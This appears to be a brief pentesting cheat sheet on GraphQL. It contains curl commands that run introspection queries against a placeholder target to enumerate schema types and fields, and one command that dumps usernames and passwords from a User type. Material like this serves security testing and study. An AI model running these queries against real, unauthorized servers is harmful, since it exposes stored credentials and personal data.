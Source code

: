 ```yaml
---
title: "Graphql"
date: 2024-7-9
tags: ["graphql", "database"]
---
```


### Visualize Tool

```console
+---------------------------------------------------------------+
| 1. Change Schema -> Introspection -> Copy Introspection Query |
| 2. Paste query                                                |
| 3. Display                                                    |
+---------------------------------------------------------------+
```

<small>*Ref: [graphql-voyager](https://graphql-kit.com/graphql-voyager/)*</small>

### Basic Commands

```console
# Get fields from schema
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{queryType{name,fields{name,description}}}}"}' | jq .
```

```console
# Get types name
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{types{name}}}"}' | jq .
```

```console
# Get fields of type (e.g. User)
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__type(name:\"User\"){name,fields{name}}}"}' | jq .
```

```console
# Dump data from type (e.g. User type with fields username and password)
curl -s <TARGET>:3000/graphql -H "Content-Type: application/json" -d '{"query":"{User{username,password}}"}' | jq .
```
